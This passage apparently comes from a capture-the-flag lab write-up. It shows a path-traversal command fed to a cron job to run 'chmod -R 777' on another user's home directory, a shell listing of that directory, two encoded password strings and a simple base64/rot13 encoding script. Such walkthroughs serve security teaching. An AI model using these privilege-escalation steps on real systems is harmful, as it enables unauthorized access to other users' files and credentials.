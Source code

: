 The following directory traversal (the command had to originate from /usr/bin/) was used to set the permissions for <code>/home/admin</code> **world readable**.

{% highlight bash %}

echo "/usr/bin/../../bin/chmod -R 777 /home/admin" > /tmp/runthis

{% endhighlight %}

### /home/admin

Inspection of <code>/home/admin</code> disclosed the following:

{% highlight bash %}

sh-4.1$ cd /home/admin
cd /home/admin
sh-4.1$ ls -la
ls -la
total 652
drwxrwxrwx. 2 admin     admin       4096 Nov 19 02:03 .
drwxr-xr-x. 5 root      root        4096 Nov 19 01:40 ..
-rwxrwxrwx. 1 admin     admin         18 Sep 22 12:40 .bash_logout
-rwxrwxrwx. 1 admin     admin        176 Sep 22 12:40 .bash_profile
-rwxrwxrwx. 1 admin     admin        124 Sep 22 12:40 .bashrc
-rwxrwxrwx  1 admin     admin      45224 Nov 18 13:42 cat
-rwxrwxrwx  1 admin     admin      48712 Nov 18 14:14 chmod
-rwxrwxrwx  1 admin     admin        737 Nov 18 14:48 cronjob.py
-rwxrwxrwx  1 admin     admin         21 Nov 18 15:21 cryptedpass.txt
-rwxrwxrwx  1 admin     admin        258 Nov 18 15:20 cryptpass.py
-rwxrwxrwx  1 admin     admin      90544 Nov 18 13:49 df
-rwxrwxrwx  1 admin     admin      24136 Nov 18 13:40 echo
-rwxrwxrwx  1 admin     admin     163600 Nov 18 13:42 egrep
-rwxrwxrwx  1 admin     admin     163600 Nov 18 13:42 grep
-rwxrwxrwx  1 admin     admin      85304 Nov 18 13:41 ps
-rw-r--r--  1 fristigod fristigod     25 Nov 19 01:47 whoisyourgodnow.txt
sh-4.1$ cat whoisyourgodnow.txt
cat whoisyourgodnow.txt
=RFn0AKnlMHMPIzpyuTI0ITG
sh-4.1$ cat cryptedpass.txt
cat cryptedpass.txt
mVGZ3O3omkJLmy2pcuTq

{% endhighlight %}

The following python script appeared to create the above string in cryptedpass.txt:

{% highlight python %}

sh-4.1$ cat cryptpass.py
cat cryptpass.py
#Enhanced with thanks to Dinesh Singh Sikawar @LinkedIn
import base64,codecs,sys

def encodeString(str):
    base64string= base64.b64encode(str)
    return codecs.encode(base64string[::-1], 'rot13')

cryptoResult=encodeString(sys.argv[1])
print cryptoResult

{% endhighlight %}
